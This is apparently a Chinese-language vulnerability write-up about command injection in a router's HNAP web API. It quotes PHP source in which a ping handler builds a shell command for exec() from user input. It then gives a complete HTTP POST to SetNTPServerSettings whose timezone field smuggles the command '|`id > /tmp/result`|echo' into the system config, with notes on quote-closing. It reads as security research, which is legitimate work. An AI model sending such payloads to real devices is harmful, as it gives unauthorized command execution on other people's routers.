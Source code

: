 ```php
        $ping_size_range = array("options" => array("min_range" => 4, "max_range" => 1472));

        if (!filter_var($option['tomography_ping_number'], FILTER_VALIDATE_INT, $ping_number_range)) {  //校验ping次数范围
            $result["message"] = "ping的次数不合法";
        } elseif (!filter_var($option['tomography_ping_size'], FILTER_VALIDATE_INT, $ping_size_range)) {  //校验ping包大小范围
            $result["message"] = "ping包大小不合法";
        } elseif (!(filter_var($option['tomography_ping_address'], FILTER_VALIDATE_IP)  //校验是否为合法IP或域名
            || check_domain($option['tomography_ping_address']))) {
            $result["message"] = "不是合法的IP或域名";
        } else {
            exec("ping -c " . $option['tomography_ping_number'] . " -s " . $option['tomography_ping_size'] . " '" . $option['tomography_ping_address'] . "' > /tmp/ping.result");
            file_put_contents("/etc/.SetNetworkTomography", json_encode($option));
            $result['SetNetworkTomographySettingsResult'] = "OK";
        }
        $this->api_response(__CLASS__, $result);
    }
}
```





### 利用分析

**管道符是不必要的，闭合是必要的(特殊情况 echo )** 

;有无空格都行



使用SetNTPServerSettings接口往/etc/config/system文件中注入命令

```http
POST /HNAP1/ HTTP/1.1
Host: 192.168.0.1
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/119.0
Accept: application/json
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate, br
Content-Type: application/json
SOAPACTION: "http://purenetworks.com/HNAP1/SetNTPServerSettings"
HNAP_AUTH: 8D44532710B3593A73383F4366A6A89D 1700479594806
Content-Length: 99
Origin: http://192.168.0.1
Connection: close
Referer: http://192.168.0.1/Home.html?t=1700479592337
Cookie: PHPSESSID=e9920db8aee2f5b998590af3e5eb20d3; uid=5Pv9fmhD; PrivateKey=29C562F7DA84E8FD829F2125E8C11CFC


{
	"SetNTPServerSettings":{
		"system_time_timezone":"'|`id > /tmp/result`|echo'"
	}
}
```
